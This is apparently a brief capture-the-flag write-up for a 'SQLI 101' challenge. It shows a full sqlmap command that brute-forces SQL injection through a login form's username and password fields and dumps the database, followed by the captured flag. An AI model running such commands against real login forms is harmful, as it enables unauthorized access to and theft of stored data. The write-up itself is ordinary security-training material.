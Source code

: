 # SQLI 101
Used sqlmap to bruteforce it using username and password parameters   
``sqlmap -u http://chal4.hackademy.ctf --data "password=admin&username=admin" -p "password,username" --method POST --current-db --dump --technique=BEUSTQ``   
``FLAG-VTjo1lpqGRcHdtD5r02e73Dq4jrnusXn``
